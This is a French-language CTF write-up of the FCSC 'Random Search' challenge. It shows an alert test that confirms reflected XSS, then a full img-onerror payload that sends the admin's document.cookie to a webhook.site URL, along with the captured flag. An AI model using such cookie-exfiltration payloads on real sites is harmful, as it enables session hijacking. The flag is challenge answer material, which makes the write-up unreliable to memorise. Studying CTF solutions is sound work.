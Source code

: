 # (Intro) Random Search - 20 points

![image](https://cdn.discordapp.com/attachments/835531052662784010/838814062438776842/1WHy2m.png)

Rien qu'en lisant l'énoncé de ce challenge on peut comprendre qu'on aura donc besoin d'utiliser une XSS permettant la récupération du flag qui est donc égal au cookie de l'administrateur.
On attérit donc sur une page comme celle-ci avec un formulaire de contact et une barre de recherche, dans un premier temps j'ai donc essayé avec un payload basique d'afficher une alerte à l'aide de la barre de recherche.

![image](https://siraak.please-fuck.me/0Bka92.png)

L'alerte est apparue, il y a donc bien une faille XSS dans la barre de recherche. Maintenant la question c'est comment récupérer le cookie de l'administrateur.
On se rend donc ici `http://challenges2.france-cybersecurity-challenge.fr:5001/contact.php` où il y'a la possibilité d'envoyer des urls. J'ai donc refais mon payload afin de récupérer le cookie en envoyant le lien vulnérable à la XSS.

Lien envoyé : `http://challenges2.france-cybersecurity-challenge.fr:5001/index.php?search=<img src=x onerror="this.src='https://webhook.site/48733419-09f7-4fbb-b0a6-6aa1aba6143b/'+document.cookie; this.removeAttribute('onerror');">`, ce qui m'a renvoyé sur le webhook `https://webhook.site/48733419-09f7-4fbb-b0a6-6aa1aba6143b/admin=FCSC%7B4e0451cc88a9a96e7e46947461382008d8c8f4304373b8907964675c27d7c633%7D`

On obtient donc le flag (`FCSC%7B4e0451cc88a9a96e7e46947461382008d8c8f4304373b8907964675c27d7c633%7D`) avec des caractères en héxadécimal vers le début et à la fin, on remplace donc `%7D` par `}` et `%7B` par `{`

`Flag : FCSC{4e0451cc88a9a96e7e46947461382008d8c8f4304373b8907964675c27d7c633}`
